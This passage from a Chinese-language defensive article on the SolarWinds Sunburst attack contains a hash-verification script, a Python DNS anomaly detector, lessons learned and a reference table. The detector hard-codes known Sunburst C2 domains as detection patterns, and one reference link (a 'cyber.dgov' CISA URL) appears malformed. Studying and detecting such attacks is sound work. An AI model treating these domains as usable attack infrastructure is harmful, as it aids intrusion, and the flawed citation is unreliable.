    else
        echo "[FAIL] $component 哈希不匹配！"
        echo "  预期: $known_hash"
        echo "  实际: $hash"
        echo "[ALERT] 可能存在供应链篡改！"
        return 1
    fi
}

# 定期扫描已安装的SolarWinds组件
scan_solarwinds_installation() {
    echo "=== SolarWinds组件完整性扫描 ==="
    
    ORION_PATH="C:\\Program Files (x86)\\SolarWinds\\Orion"
    
    if [ -d "$ORION_PATH" ]; then
        find "$ORION_PATH" -name "*.dll" -o -name "*.exe" | while read file; do
            current_hash=$(sha256sum "$file" | awk '{print $1}')
            verify_against_known_good "$(basename $file)" "$current_hash"
        done
    else
        echo "未找到SolarWinds Orion安装目录"
    fi
}
```

**3. DNS监控与异常检测**

```python
# DNS异常检测系统 - 针对Sunburst类攻击
import collections
import math
from datetime import datetime, timedelta

class DNSAnomalyDetector:
    """检测类似Sunburst的DNS隐蔽通信"""
    
    def __init__(self, baseline_days: int = 30):
        self.baseline_days = baseline_days
        # 基线数据
        self.domain_frequency = collections.Counter()
        self.subdomain_lengths = collections.deque(maxlen=100000)
        self.entropy_values = collections.deque(maxlen=100000)
    
    def calculate_entropy(self, string: str) -> float:
        """计算字符串的信息熵"""
        if not string:
            return 0.0
        
        freq = collections.Counter(string)
        length = len(string)
        
        entropy = -sum(
            (count / length) * math.log2(count / length)
            for count in freq.values()
        )
        
        return entropy
    
    def analyze_dns_query(self, domain: str) -> dict:
        """分析单个DNS查询的异常指标"""
        parts = domain.split(".")
        subdomain = parts[0] if parts else ""
        
        result = {
            "domain": domain,
            "subdomain": subdomain,
            "anomalies": [],
            "risk_score": 0,
        }
        
        # 检查1：子域名长度异常
        avg_length = (
            sum(self.subdomain_lengths) / len(self.subdomain_lengths)
            if self.subdomain_lengths else 10
        )
        
        if len(subdomain) > avg_length * 2:
            result["anomalies"].append({
                "type": "LONG_SUBDOMAIN",
                "detail": f"子域名长度 {len(subdomain)} 超过基线 {avg_length:.1f}",
                "weight": 30,
            })
        
        # 检查2：信息熵异常（编码数据的特征）
        entropy = self.calculate_entropy(subdomain)
        avg_entropy = (
            sum(self.entropy_values) / len(self.entropy_values)
            if self.entropy_values else 2.5
        )
        
        if entropy > avg_entropy * 1.5:
            result["anomalies"].append({
                "type": "HIGH_ENTROPY",
                "detail": f"信息熵 {entropy:.2f} 超过基线 {avg_entropy:.2f}",
                "weight": 25,
            })
        
        # 检查3：匹配已知的Sunburst域名模式
        sunburst_patterns = [
            "avsvmcloud.com",
            "freescanonline.com",
            "deftsecurity.com",
            "highdatabase.com",
            "databaseblog.com",
            "zupertech.com",
            "appsync-api",  # Sunburst常用的API伪装前缀
        ]
        
        for pattern in sunburst_patterns:
            if pattern in domain:
                result["anomalies"].append({
                    "type": "KNOWN_C2_DOMAIN",
                    "detail": f"匹配已知Sunburst C2域名模式: {pattern}",
                    "weight": 100,
                })
        
        # 检查4：字符分布异常
        if subdomain.isalnum() and len(subdomain) > 15:
            # 检查是否符合Base32编码特征
            consonants = sum(1 for c in subdomain if c.lower() in 'bcdfghjklmnpqrstvwxyz')
            vowels = sum(1 for c in subdomain if c.lower() in 'aeiou')
            
            if vowels > 0 and consonants / vowels > 4:
                result["anomalies"].append({
                    "type": "SUSPICIOUS_CHAR_DISTRIBUTION",
                    "detail": f"辅音/元音比异常高: {consonants/vowels:.1f}",
                    "weight": 15,
                })
        
        # 计算总风险分数
        result["risk_score"] = sum(a["weight"] for a in result["anomalies"])
        result["risk_level"] = (
            "CRITICAL" if result["risk_score"] >= 100 else
            "HIGH" if result["risk_score"] >= 60 else
            "MEDIUM" if result["risk_score"] >= 30 else
            "LOW"
        )
        
        # 更新基线
        self.subdomain_lengths.append(len(subdomain))
        self.entropy_values.append(entropy)
        
        return result
    
    def scan_dns_log(self, log_path: str) -> list:
        """扫描DNS日志文件，返回所有可疑查询"""
        alerts = []
        
        with open(log_path) as f:
            for line in f:
                domain = self.extract_domain(line)
                if domain:
                    analysis = self.analyze_dns_query(domain)
                    if analysis["risk_score"] >= 30:
                        alerts.append(analysis)
        
        # 按风险分数排序
        alerts.sort(key=lambda x: x["risk_score"], reverse=True)
        
        return alerts
```

### 经验教训与安全思维启示

Sunburst事件为整个网络安全行业带来了深刻教训，这些教训超越了技术层面，涉及组织架构、安全文化和思维方式的根本性转变：

**1. 信任不等于安全**

SolarWinds是一个拥有超过30年历史、服务于超过30万客户的知名公司。它的软件经过了合法的代码签名，通过了正常的更新渠道分发。然而，这些"信任标志"恰恰被攻击者利用。**安全思维的转变：从"信任已签名的软件"转向"持续验证所有软件行为"**。

**2. 供应链是新的攻击面**

传统的安全防御聚焦于保护组织自身的边界。Sunburst证明，攻击者可以通过攻击组织信任的供应商来绕过所有边界防御。**安全思维的扩展：将防御边界从组织内部扩展到整个供应链**。

**3. 检测需要行为分析而非签名匹配**

Sunburst的每个组件都经过了合法签名，传统的基于签名的检测完全失效。只有通过持续的行为分析——监控进程的网络活动、DNS查询模式、系统调用序列——才能发现异常。**安全思维的升级：从"已知威胁检测"转向"异常行为发现"**。

**4. 纵深防御不是口号**

如果受害组织仅仅依赖防火墙和终端防护，Sunburst可以完全绕过。只有在DNS层、网络层、终端层、应用层都部署了监控和检测能力，才有可能发现这类高级威胁。**安全思维的实践：每个防御层都应该能独立发现异常**。

**5. 安全事件响应速度决定损失程度**

从FireEye发现入侵到公开披露仅用了5天，从公开披露到全球应急响应仅用了数周。如果响应速度更慢，攻击者可能在更多目标网络中建立更深的持久化。**安全思维的准备：建立并定期演练安全事件响应流程**。

### 延伸阅读与参考资源

| 资源 | 来源 | 内容 |
|:---|:---|:---|
| [Analyzing Solorigate](https://www.microsoft.com/security/blog/2020/12/18/analyzing-solorigate/) | Microsoft MSTIC | Sunburst技术分析和Microsoft Defender检测 |
| [Highly Evasive Attacker](https://www.fireeye.com/blog/threat-research/2020/12/evasive-attacker-leverages-solarwinds-supply-chain-compromises-with-sunburst-backdoor.html) | FireEye | 发现Sunburst的完整技术报告 |
| [Dark Halo Technical Analysis](https://www.crowdstrike.com/blog/sunspot-malware-technical-analysis/) | CrowdStrike | SunSpot植入器分析（构建系统攻击工具） |
| [SolarWinds Advisory](https://www.solarwinds.com/securityadvisory) | SolarWinds | 官方安全公告和受影响版本列表 |
| [CISA Emergency Directive 21-01](https://cyber.dgov/emergency-directive-21-01) | CISA | 美国政府的应急响应指令 |
| [MITRE ATT&CK Solorigate](https://attack.mitre.org/groups/G0118/) | MITRE | SolarWinds攻击的ATT&CK映射 |

---

> **安全思维要点**：Sunburst不是一个漏洞利用，而是一个完整的攻击工程。它展示了攻击者如何将软件工程的最佳实践——模块化设计、环境感知、优雅降级——应用于恶意目的。防御者需要以同样的工程思维来构建安全体系：不是依赖单一的检测手段，而是构建一个多层次、持续验证、行为驱动的防御架构。理解攻击者的思维方式，是构建有效防御的前提。
